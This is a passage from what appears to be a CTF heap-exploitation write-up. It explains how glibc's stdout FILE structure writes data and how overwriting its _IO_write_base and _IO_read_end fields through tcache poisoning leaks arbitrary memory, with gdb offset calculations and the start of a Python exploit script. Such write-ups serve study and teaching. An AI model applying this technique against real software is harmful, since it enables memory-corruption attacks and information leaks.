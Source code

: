 Huh, we want to avoid entering that `if` since `seek()`ing through `stdout` would return an error and `new_pos == _IO_pos_BAD` would be true (and this function would return without calling to `write()`). It's also nice to notice that this function resets `_IO_write_base` and `_IO_read_end` (through `_IO_setg()`).

And finally we have `_IO_SYSWRITE()`, which in essence is just a call to `write()`.
```c
ssize_t
_IO_new_file_write (FILE *f, const void *data, ssize_t n)
{
  ssize_t to_do = n;
  while (to_do > 0)
    {
      ssize_t count = (__builtin_expect (f->_flags2
                                         & _IO_FLAGS2_NOTCANCEL, 0)
                           ? __write_nocancel (f->_fileno, data, to_do)
                           : __write (f->_fileno, data, to_do));
      if (count < 0)
        {
          f->_flags |= _IO_ERR_SEEN;
          break;
        }
      to_do -= count;
      data = (void *) ((char *) data + count);
    }
  n -= to_do;
  if (f->_offset >= 0)
    f->_offset += n;
  return n;
}
```
Boy, reading the glibc is exhausting. I need to read something that negates all these effects, idk, Fifty Shades of Grey maybe?

So if we are able to change where `_IO_write_base` points to in `stdout`'s structure we would be able to leak the contents of wherever place we want.<span id="2_"><a href="#2"><sup>2</sup></a> We need to remember that `_IO_read_end` must point to the same place as `_IO_write_base`. And we also know that we don't need to worry about breaking anything due to leaving them pointing to some weird place since they will be reset by `new_do_write()`.

### Growing up
So instead of getting a pointer to `__free_hook` we'll get a pointer to `stdout`'s `_IO_read_end` field, and overwrite it and `_IO_write_base` as well. In the process of taking that pointer from the tcache we will unavoidably make NULL the `_IO_read_base` field, but it is never going to be used for `stdout`, so don't think about it.
```
gef➤  x/gx &stdout
0x555555558020 <stdout@@GLIBC_2.2.5>:   0x00007ffff7fc26a0
gef➤  x/gx 0x00007ffff7fc26a0
0x7ffff7fc26a0 <_IO_2_1_stdout_>:       0x00000000fbad2887
gef➤  
0x7ffff7fc26a8 <_IO_2_1_stdout_+8>:     0x00007ffff7fc2723
gef➤  
0x7ffff7fc26b0 <_IO_2_1_stdout_+16>:    0x00007ffff7fc2723 // We want edit this
gef➤  p (void*)&__free_hook - 0x7ffff7fc26b0
$1 = (void *) 0x1798
gef➤  p 0x2268-0x1798
$2 = 0xad0
gef➤  x/gx 0x00007ffff7fc2723 - 0x203
0x7ffff7fc2520: 0x00007ffff7f8afd9 // An address to leak, for example
```
```python
create()
create()
create() # idx = 2, we'll overwrite size of this chunk
```